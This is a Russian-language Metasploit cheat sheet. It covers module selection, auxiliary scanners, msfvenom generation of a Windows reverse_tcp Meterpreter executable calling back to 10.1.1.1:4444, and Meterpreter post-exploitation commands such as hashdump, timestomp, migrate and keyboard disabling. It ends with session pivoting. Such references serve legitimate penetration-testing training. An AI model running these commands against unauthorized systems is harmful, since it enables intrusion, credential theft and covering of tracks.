 #### Metasploit:
Поиск модуля:
* msf > search [regex]
Укажите и используйте эксплойт:

* msf > use exploit/[ExploitPath]
Укажите полезную нагрузку для использования:

msf > set PAYLOAD [PayloadPath]
Показать параметры для текущих модулей:

msf > show options
Установить параметры:

msf > set [Option] [Value]
Запустить эксплойт:

msf > exploit 
Полезные вспомогательные модули
Сканер портов:

msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.10.0/24
msf > run
Перечисление DNS:

msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
FTP Сервер:

msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
Proxy Сервер:

msf > use auxiliary/server/socks4
msf > run 
msfvenom :

Инструмент msfvenom можно использовать для генерации полезных нагрузок Metasploit (например, Meterpreter) в виде отдельных файлов и, при необходимости, для их кодирования.

Этот инструмент заменяет прежние инструменты msfpayload и msfencode.

Запустите с ‘-l payloads’, чтобы получить список полезных нагрузок.

$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
Пример :

Полезная нагрузка Reverse Meterpreter в виде исполняемого файла и перенаправленная в файл:

$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
Metasploit Meterpreter
Базовые команды:

? / help: вывод сводной информации о командах
exit / quit: выход из сеанса Meterpreter
sysinfo: показать имя системы и тип ОС
shutdown / reboo: не требует пояснений
Команды файловой системы:
cd: изменить каталог
lcd: Изменить каталог на локальном (атакующем) компьютере
pwd / getwd: Показать текущий рабочий каталог
ls: показать содержимое каталога
cat: отображать содержимое файла на экране
download / upload: перемещение файлов на / с целевого компьютера
mkdir / rmdir: создать / удалить каталог
edit: открыть файл в редакторе по умолчанию (обычно vi)
Команды процесса:
getpid: Показать идентификатор процесса, внутри которого работает Meterpreter.
getuid: Показать идентификатор пользователя, с которым работает Meterpreter.
ps: Показать список процессов.
kill: завершить процесс по его идентификатору.
execute: запустить заданную программу с правами процесса, в который загружен Meterpreter.
migrate: переход к указанному идентификатору процесса назначения:
Целевой процесс должен иметь такие же или меньшие привилегии
Целевой процесс может быть более стабильным
Находясь внутри процесса, может получить доступ к любым файлам, для которых процесс заблокирован
Сетевые команды:

ipconfig: Показать информацию о сетевом интерфейсе
portfwd: пересылка пакетов через сеанс TCP
route: управление / просмотр таблицы маршрутизации системы
Разные команды:

idletime: отображение времени, в течение которого GUI целевой машины простаивал.
uictl [enable/disable] [keyboard/mouse]: включить / отключить мышь или клавиатуру целевой машины.
screenshot: Сохранить как изображение снимок экрана целевой машины.
 

Дополнительные модули:

use [module]: загрузить указанный модуль
Пример:
use priv: загрузить модуль priv

hashdump: сбросить хэши из коробки
timestomp: Изменить временные метки файла NTFS
Управление сессиями

Многократная эксплуатация:

Запустите эксплойт, ожидая одну сессию, которая сразу же станет фоновой:

msf > exploit -z
Запустите эксплойт в фоновом режиме, ожидая одну или несколько сессий, которые сразу же станут фоновыми:

msf > exploit –j
Перечислите все текущие задания (обычно используют слушателей):

msf > jobs –l
Убить задание

msf > jobs –k [JobID]
Несколько сессий:

Перечислите все фоновые сессии:

msf > sessions -l
Взаимодействовать с фоновым сеансом:

msf > session -i [SessionID]
Предыстория текущего интерактивного сеанса:

meterpreter > <Ctrl+Z>
или
meterpreter > background
Маршрутизация через сессии:

Все модули (эксплойты / post / aux) против целевой маски подсети будут поворачиваться в течение этого сеанса.

msf > route add [Subnet to Route To]
[Subnet Netmask] [SessionID]
